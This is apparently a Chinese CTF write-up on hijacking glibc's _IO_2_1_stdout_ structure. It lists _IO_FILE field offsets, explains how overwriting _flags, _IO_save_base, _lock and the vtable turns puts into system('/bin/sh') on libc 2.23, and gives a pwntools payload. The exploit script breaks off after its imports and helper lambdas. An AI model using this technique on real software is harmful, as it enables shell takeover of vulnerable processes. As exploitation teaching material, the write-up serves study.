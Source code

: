 ```plain
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```

1、篡改\_IO\_FILE 结构体中的 vtable 字段时，要不可避免的填充之前的字段，但如果将\_lock 字段破坏的话，在执行输出函数中最开始上锁的宏\_IO\_acquire\_lock (\_IO\_stdout) 就会崩溃掉，因此需要保证\_lock 字段是正常的。

2、如果想通过直接修改 \_IO\_2\_1_stdout_ 结构体中的字段来 getshell 的话，我们可以将\_flags 字段写入字符串/bin/sh\\x00(是字符串，并非该字符串的地址)，然后将 vtable 修改为\_IO\_2\_1\_stdout\_的地址 +0x10，然后将\_IO\_save\_base 字段 (0x48) 写成 system 地址，最后要将\_lock 字段写入原本正常的值。这样当执行 puts 函数的时候会调用 vtable 中的\_IO\_new\_file\_xsputn 函数，但是 vtable 已经被修改，这个函数的偏移是 0x38，而 vtable 被修改成\_IO\_2\_1\_stdout\_的地址 +0x10，最终调用的是\_IO\_2\_1\_stdout\_的地址 +0x48 的函数指针，而这个位置就是\_IO\_save\_base 字段，里面放的是 system 的地址。而\_IO\_new\_file\_xsputn 函数的第一个参数是\_IO\_2\_1\_stdout\_的地址，而这个地址原本应该是\_flags 字段，但是现在却被写入了/bin/sh 字符串。因此本来正常调用的\_IO\_new\_file\_xsputn 函数如今变成了 system(‘/bin/sh\\x00’),从而获取 shell。(该方法在 libc2.23 以上的版本就无法再使用了)

根据上面的原理，我们再次劫持整个\_IO\_2\_1\_stdout\_结构，直接伪造 vtable，篡改\_flags、\_lock、vtable、\_IO\_save\_base 字段。

\_flags：'/bin/sh\\x00'  
\_IO\_save\_base: system  
\_lock: \_IO\_stdfile\_1\_lock #确保这个\_lock 字段的值是正常的  
vtable: \_IO\_2\_1_stdout_ +0x10

```plain
pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])
```

## exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
```